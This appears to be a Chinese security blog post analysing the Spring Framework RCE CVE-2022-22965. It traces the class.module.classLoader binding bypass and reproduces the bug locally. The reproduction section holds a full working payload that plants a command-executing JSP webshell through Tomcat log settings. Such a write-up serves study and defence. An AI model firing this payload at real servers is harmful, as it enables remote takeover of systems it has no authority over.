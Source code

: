 # 浅析SpringFramework Core RCE

CVE-2022-22965

***@springtime***

## 0x00 前言

​	这几天比较火的Spring框架漏洞，不少人说是“堪称log4j的核弹级漏洞”；口说无凭，正好到周末来看一看。

![image-20220403161149537](C:\Users\17762\AppData\Roaming\Typora\typora-user-images\image-20220403161149537.png)

## 0x01 漏洞条件与环境配置

漏洞有如下几个条件：

- JDK version >= 9
- Spring Framework 5.3.0 到 5.3.17，5.2.0 到 5.2.19 以及更早的版本
- 使用org.springframework.beans包
- Controller使用了不安全的表单绑定，例如POJO
- war打包并部署

复现环境我使用的是github上构建好的war包，本机tomcat9+JDK11进行本地调试。

环境：https://github.com/p1n93r/spring-rce-war

## 0x02 前置知识

​	今天了解到其实CVE-2022-22965的漏洞形式并不新颖，反而和十几年前的CVE-2010-1622有着密切的联系，我们先大致了解一下CVE-2010-1622吧。

### CVE-2010-1622

​	当我们在Spring MVC框架中使用了不安全参数绑定功能，攻击者可以传入特定参数修改类加载器的属性，假如后端实现的POJO中存在class类型的属性，那么我们就可以通过class.getClass().getClassLoader()的方式来获取类加载器，可以理解为通过反射的方式获取ClassLoader，但前提是POJO中有class属性。

**如果听起来比较吃力的话，这里有一些简单的解释：**

> 1.什么是POJO？
>
> ​	POJO全称是Plain Old Java Object，即普通java对象，众所周知由于Java的继承、接口、多态等属性导致了java类有些臃肿繁杂，而POJO就是“没有从任何类继承、也没有实现任何接口，更没有被其它框架侵入的java对象”。简单讲POJO就是更简单、纯洁的java对象。
>
> 2.什么是JavaBean？
>
> ​	JavaBean就是一种POJO，他拥有如下规则:
>
> - 访问级别—要求属性是私有的，并暴露公开getter和setter方法。
> - 方法名–getter和setter遵循getX和setX约定。
> - 默认构造函数–必须存在无参数构造函数，以便在不提供参数的情况下创建实例
>
> 3.什么是参数绑定？
>
> ~~~java
> /**举个例子**/
>   @RequestMapping("testParam")
>   public String testParam(String username,String password){
>     System.out.println("用户名: " + username);
>     System.out.println("密码: " + password);
>     return "params";
>   }
> ~~~
>
> ​	我们写入以上路由在提交参数的时候添加username=admin&password=admin就可以将这两个参数值绑定到后台controller。

​	当我们获取到ClassLoader之后，就可以通过setter和getter去修改类中的关键属性，比如在低版本SpringFramework中就有一个特别的ClassLoader：org.apache.catalina.loader.ParallelWebappClassLoader；它保存了tomcat相关的一些全局配置属性，那么我们就可以通过 *.getClass().getClassLoader().getXX()的方式最终构造出来class.classLoader.xx的利用链。

### CVE-2022-22965---祸起Module类

实际上，CVE-2022-22965是CVE-2010-1622的bypass，当初官方修复CVE-2010-1622的做法是在用户输入之后假如一层判断，如果用户输入的class并尝试获取classLoader的时候就会直接pass。

但是后来JDK9+的版本中class对象多了一个Module类，而Module类中也有classLoader，这就造成了bypass。

**当然前提是得有class！这个在下面的调试过程中会提到。**

​	如果学习过struts2-s20系列的漏洞应该知道，tomcat8+下有一个特别的context：class.classLoader.resources.context ，它包含着多个属性，其中有一种利用姿势就是我们可以通过修改以下几个属性，他们的默认值如下：

~~~
class.classLoader.resources.context.parent.pipeline.first.directory =logs
class.classLoader.resources.context.parent.pipeline.first.prefix =localhost_access_log
class.classLoader.resources.context.parent.pipeline.first.suffix = .txt
class.classLoader.resources.context.parent.pipeline.first.fileDateFormat =.yyyy-mm-dd
~~~

这几种属性规定了日志的形式，我们将其修改成

~~~
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{xxx}i
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix=springtime
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
~~~

然后传入就可以在web根目录下写入后缀为jsp的文件，有些类似于日志写马的操作，但明显这种操作自由度更高。设置完日志后我们传入任意参数只要包含恶意代码就可以完成写入webshell的操作。

## 0x03 调试与复现

### 调试

调试的过程也很直接，我们跟踪参数绑定的流程即可。index路由规定我们传入evalBean，evalBean长这样：

![image-20220403112021564](C:\Users\17762\AppData\Roaming\Typora\typora-user-images\image-20220403112021564.png)

有两个变量一个name一个commonBean，commonBean长这样：

![image-20220403112708339](C:\Users\17762\AppData\Roaming\Typora\typora-user-images\image-20220403112708339.png)

都是很标准的javaBean。

​	首先结合前面的分析，我们要确定一个目标，那就是**Spring在参数绑定的过程中，会不会出现一个class可控？**很明显我们写的spring MVC是很平常的写法，也符合很多人的代码习惯，当然没有哪个傻瓜会在后台绑定一个class，但是这就意味着我们的spring是安全的吗？**在我们打上断点Debug参数绑定的流程的时候，会发现神奇的一幕出现了：**

![image-20220403114216389](C:\Users\17762\AppData\Roaming\Typora\typora-user-images\image-20220403114216389.png)

​	**propertyDescriptorCache中多出了class！**按理来讲应该只有name和commonBean才对，因为我们的javaBean中只有这两个变量。至于为什么多出来一个class，我也不知道(菜)o(*￣▽￣* )o 。

​	我们传入一个payload并继续跟踪：

~~~
/index?class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
~~~

![image-20220403115945875](C:\Users\17762\AppData\Roaming\Typora\typora-user-images\image-20220403115945875.png)

来到了getModule，再跟踪

![image-20220403120134318](C:\Users\17762\AppData\Roaming\Typora\typora-user-images\image-20220403120134318.png)

这里doBind就实现了参数覆盖，后面的过程就不继续跟了，修改完日志配置后就可以写入木马。

### 复现

按照我们刚才讲的思路进行复现，环境已经帮我们搭建好，使用了SpringBean，项目结构如下：

![image-20220402224753005](C:\Users\17762\AppData\Roaming\Typora\typora-user-images\image-20220402224753005.png)

我们首先进行参数绑定去变量覆盖，传入以下payload：

~~~
//借用了一下GitHub上的payload
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=springtime&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
~~~

构造如下请求并发送：

![image-20220403154320382](C:\Users\17762\AppData\Roaming\Typora\typora-user-images\image-20220403154320382.png)

> ​	注意别忘记headers的几个字段，至于为什么要添加headers，那是因为tomcat的一些特性，比如我们利用tomcat写入一些特殊字符例如尖括号 <>或者敏感类的时候会出现解析的错误，因此我们要分成两部分利用占位符来对webshell进行填充。

![image-20220403154723881](C:\Users\17762\AppData\Roaming\Typora\typora-user-images\image-20220403154723881.png)

成功写入，然后访问。

![image-20220403154839052](C:\Users\17762\AppData\Roaming\Typora\typora-user-images\image-20220403154839052.png)

搞定。

## 0x04 总结

​	分析完之后可以发现这个洞确实是有分量的，原因就在于参数绑定cache中多出的一个class引用（我想了一下应该不是凭空多出的，而是传入EvalBean的问题）加上JDK9+中多出的Module类，这就造成了我们能获取到ClassLoader最后修改日志写入webshell。严重确实挺严重，因为漏洞的触发是基于正常的代码习惯，很多人都会这么写后端；但是我认为和log4j还是没法比的。

嫌搭环境麻烦不想本地复现的同学可以去

vulfocus：http://vulfocus.io/

vulhub：https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22965

## 参考

http://rui0.cn/archives/1158

https://cloud.tencent.com/developer/article/1035297
